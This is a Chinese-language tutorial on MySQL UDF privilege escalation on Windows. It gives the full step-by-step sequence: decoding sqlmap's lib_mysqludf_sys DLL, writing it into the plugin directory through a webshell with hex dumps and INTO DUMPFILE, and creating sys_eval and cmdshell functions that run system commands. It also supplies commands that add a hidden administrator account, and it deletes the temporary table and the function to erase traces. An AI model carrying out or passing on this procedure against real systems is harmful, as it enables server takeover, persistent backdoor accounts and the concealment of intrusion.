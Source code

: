 # UDF

## 1、提权过程

### 1、UDF

UDF（user defined function）用户自定义函数，是mysql的一个拓展接口。用户可以通过自定义函数实现在mysql中无法方便实现的功能，其添加的新函数都可以在sql语句中调用，就像调用本机函数一样。

### 2、windows下udf提权的条件 <a id="0x02-windows&#x4E0B;udf&#x63D0;&#x6743;&#x7684;&#x6761;&#x4EF6;"></a>

1、如果mysql版本大于5.1，udf.dll文件必须放置在mysql安装目录的lib\plugin文件夹下/  
2、如果mysql版本小于5.1， udf.dll文件在windows server 2003下放置于c:\windows\system32目录，在windows server 2000下放置在c:\winnt\system32目录。  
3、掌握mysql数据库的账户，从拥有对mysql的insert和delete权限，以创建和抛弃函数。  
4、拥有可以将udf.dll写入相应目录的权限。

### 3、提权方法 <a id="0x03-&#x63D0;&#x6743;&#x65B9;&#x6CD5;"></a>

如果是mysql5.1及以上版本，必须要把udf.dll文件放到mysql安装目录的lib\plugin文件夹下才能创建自定义函数。该目录默认是不存在的，需要使用webshell找到mysql的安装目录，并在安装目录下创建lib\plugin文件夹，然后将udf.dll文件导出到该目录。

```text
/*

sqlmap\udf\mysql\windows\32目录下存放着lib_mysqludf_sys.dll_

sqlmap\udf\mysql\windows\64目录下为64位的lib_mysqludf_sys.dll_

*/
```

首先进入到 sqlmap\extra\cloak\cloak 目录下，执行命令：

```text
cloak.py -d -i D:\sqlmap\udf\mysql\windows\32\lib_mysqludf_sys.dll_
```

解密之后会在当前目录下生成dll文件。

将dll文件复制到mysql的/lib/plugin目录下，执行

```text
create function sys_exec returns string soname "lib_mysqludf_sys.dll";
```

攻击者可以利用lib\_mysqludf\_sys提供的函数执行系统命令。

执行命令：

```text
select sys_eval(‘whoami’);
```

```text
/*

函数介绍：

sys_eval，执行任意命令，并将输出返回。

sys_exec，执行任意命令，并将退出码返回。

sys_get，获取一个环境变量。

sys_set，创建或修改一个环境变量。

*/
```

## 2、原理

提权过程：

1、将udf文件放到指定位置（Mysql&gt;5.1放在Mysql根目录的lib\plugin文件夹下）  
2、从udf文件中引入自定义函数\(user defined function\)  
3、执行自定义函数

第一步，拿到一个网站的webshell之后，在指定位置创建udf文件。

如何创建？

sqlmap中有现成的udf文件，分为32位和64位，一定要选择对版本，否则会显示：Can't open shared library 'udf.dll'。

然后将获得的udf.dll文件转换成16进制，一种思路是在本地使用mysql函数hex：

```text
SELECT hex(load_file(0x433a5c5c55736572735c5c6b61316e34745c5c4465736b746f705c5c6c69625f6d7973716c7564665f7379732e646c6c)) into dumpfile 'C:\\Users\\ka1n4t\\Desktop\\gg.txt';
```

load\_file中的十六进制是C:\Users\ka1n4t\Desktop\lib\_mysqludf\_sys.dll  
此时gg.txt文件的内容就是udf文件的16进制形式。

接下来就是把本地的udf16进制形式通过我们已经获得的webshell传到目标主机上。

```text
CREATE TABLE udftmp (c blob); //新建一个表，名为udftmp，用于存放本地传来的udf文件的内容。
INSERT INTO udftmp values(unhex('udf文件的16进制格式')); //在udftmp中写入udf文件内容
SELECT c FROM udftmp INTO DUMPFILE 'H:\\PHPStudy\\PHPTutorial\\MySQL\\lib\\plugin\\udf.dll'; 
//将udf文件内容传入新建的udf文件中，路径根据自己的@@basedir修改
//对于mysql小于5.1的，导出目录为C:\Windows\或C:\Windows\System32\
```

上面第三步，mysql5.1以上的版本是默认没有plugin目录的，网上有说可以使用ntfs数据流创建：

```text
select test into dumpfile 'H:\\PHPStudy\\PHPTutorial\\MySQL\\lib\\plugin::$INDEX_ALLOCATION';
```

但是我本地测试一直没有成功。后来又在网上看了很多，都是用这种方法，看来是无解了。在t00ls上也有人说数据流从来没有成功过，所以说mysql5.1以上的提权能否成功还是个迷。  
为了演示，在这里我是手工创建了个plugin目录\(ps: 勿喷啦，我用的phpstudy环境，重新安装一个mysql的话有可能会冲突，所以就没搞，毕竟原理都一样\)。

继续，到这儿如果没有报错的话就说明已经在目标主机上成功生成了udf文件。下面要导入udf函数：

```text
1. DROP TABLE udftmp; //为了删除痕迹，把刚刚新建的udftmp表删掉
2. CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll'; //导入udf函数
导入成功的话就可以使用了：
```

```text
SELECT sys_eval('ipconfig');
返回网卡信息
```

附几个常用的cmd指令，用于添加一个管理员用户：

```text
net user ka1n4t ka1n4t~!@ /add //添加新用户：ka1n4t，密码为ka1n4t~!@
net localgroup administrators ka1n4t /add //将ka1n4t添加至管理员分组
```

#### 1、提权原理： <a id="1&#x63D0;&#x6743;&#x539F;&#x7406;"></a>

利用了root 高权限，创建带有调用cmd的函数的udf.dll动态链接库

#### 2、数据库版本为 5.0 以下的： <a id="2&#x6570;&#x636E;&#x5E93;&#x7248;&#x672C;&#x4E3A;-50-&#x4EE5;&#x4E0B;&#x7684;"></a>

如果是 win 2000 的服务器，我们则需要将 udf.dll 文件导出到 C:\Winnt\udf.dll 下。

如果是 win2003 服务器，我们则要将 udf.dll 文件导出在 C:\Windows\udf.dll 下。

#### 3、数据库版本为 5.1 以上的： <a id="3&#x6570;&#x636E;&#x5E93;&#x7248;&#x672C;&#x4E3A;-51-&#x4EE5;&#x4E0A;&#x7684;"></a>

我们则需要将 dll 文件导出到 mysql 安装目录的 lib\plugin\ 下，才能创建自定义函数。注：如果没有 plugin 目录，我们可以进行手动创建！

#### 4、udf提权的两种姿势 <a id="4udf&#x63D0;&#x6743;&#x7684;&#x4E24;&#x79CD;&#x59FF;&#x52BF;"></a>

1：通过大马的MySQL提权功能，成功导出 udf.dll 文件后，我们就可以直接在命令框输入 cmd 命令，来执行提权操作。注：在此之前，我们应执行版本查看语句，来确认当前MySQL的版本信息！

```text
net user secist secist.com /add

net localgroup administrators secist /add
```

2：直接在目标服务器上传 udf.php 此类的提权脚本提权。

方法是一样的，先导出 dll 文件到正确位置。

再在自定义SQL语句执行框内，执行以下命令，来创建调用函数并进行提权！

```text
create function cmdshell returns string soname ‘udf.dll’;                创建 cmdshell 调用函数
select cmdshell(‘net user secist secist.com /add’);                           添加用户
select cmdshell(‘net localgroup administrators secist /add’);           将用户加到管理组
drop function cmdshell;                                                                      删除函数
delete from mysql.func where name='cmdshell';                                 删除函数
```

